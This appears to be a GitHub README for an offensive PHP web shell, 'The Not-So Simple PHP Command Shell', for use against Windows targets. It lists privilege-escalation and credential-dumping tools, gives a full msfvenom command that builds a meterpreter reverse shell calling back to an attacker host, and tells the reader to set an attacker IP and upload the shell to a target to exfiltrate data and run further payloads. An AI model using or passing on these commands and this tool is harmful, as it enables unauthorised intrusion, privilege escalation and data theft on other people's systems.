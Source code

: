 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<p>Automates many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. Note that the tools in my quick upload function are not included in this repo as they are the work of other parties. Sources for quick upload files follow: <br>
Invoke-WScriptBypassUAC.ps1: https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-WScriptBypassUAC.ps1
PsTools: https://download.sysinternals.com/files/PSTools.zip <br>
CVE-2015-1701 Priv Esc(aka Taihou.exe) https://github.com/hfiref0x/CVE-2015-1701<br>
JAWs Enum: https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1<br>
Netcat for windows: https://github.com/int0x33/nc.exe<br>
Trend Micro Ransomware file Decryptor: <a href="https://powerbox-na-file.trend.org/SFDC/DownloadFile_iv.php?jsonInfo=%7B%22Query%22%3A%22dR%2BBrNMzg9JJ%2BWXagmE3CFGo6KHZSCtPVPWbg7058IWvcyqFByPzp7Z4BbItLT0NsFzkgJ0M94o3bXOPZnUaMn8BheublSy8lx4KW0qoVEoOa5y7oXGHz2cEAVug61PrxdNc4ubF%2F0%2Fo%2F28ETVpeohg%2F1LXEe9WTr%2B226RTY1Fy5cDIFi3jpKceg6BphKyMuDSbSXylWRKdYIpWKpjVQ8C57t%2BsE56nvuvo6MQmfekk4oRgyS03nH6MaTefGu4nx%22%2C%22iv%22%3A%2259e1f948abd6a90359e13f2b04fa37a5%22%7D" target="_blank"> here </a><br> 
Windows Credentials Editor: https://gitlab.com/kalilinux/packages/wce (wce32,64, and universal)<br>
DRW Ransomware Decryptor: https://download2.easeus.com/installer_rss_new.php<br>
venom.exe : (sudo) msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKBOXIP> LPORT=<ATTACBOXPORT> -e x86/shikata_ga_nai -f exe -o venom.exe
</p>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Including:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>One click preset user creation (on compatible targets with sufficient privileges)</li>
<li>One click Priv Esc for preset user (on compatible targets with sufficient privileges)</li>
<li>One click user info/ user permissions info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Next, upload the nsscmdshell.php file to the target. Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target.  Once you've gained sufficient access to a target to upload the nsscmdshell, no further instruction on using this tool should be needed.  Do not open issues because you don't know how to use this tool.  It works.  Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error?  Two possible causes: 1).You didn't set the variables, "$attackip" and "$attackport" to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11. 2). The files are not available on the defined server or port, or there is no server running on the defined port. Fix: python3 -m http.server XXXX in a directory containing the files you're attempting to upload.</p>
